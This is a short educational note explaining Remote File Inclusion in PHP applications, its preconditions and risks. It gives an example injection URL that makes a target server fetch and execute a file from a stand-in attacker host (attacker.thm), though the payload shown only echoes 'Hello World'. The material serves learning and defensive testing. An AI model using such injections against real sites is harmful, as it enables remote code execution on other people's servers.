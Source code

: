 ```yaml
---
title: Remote File Inclusion
---
```


_Remote File Inclusion_ is a technique to include remote files and into a vulnerable application. Like [Local File Inclusion](/knowledge/offsec/pentesting/LFI.md), the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function.

One requirement for RFI is that the `allow_url_fopen` option needs to be on.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain [Remote Command Execution (RCE)](/<Remote%20Command%20Execution%20(RCE)>) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting ([XSS](/private/cybersecurity/knowledge/pentesting/XSS.md))
- Denial of Service ([DoS](/DoS))

An external server hosting malicious files must communicate with the application server for a successful RFI attack. The malicious file is injected into the `include` fn via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

## Example

Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where cmd.txt contains PHP code:

```php
<?php echo "Hello World"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as

```
http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
```

If there is no input validation, then the malicious URL passes into `include`. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.
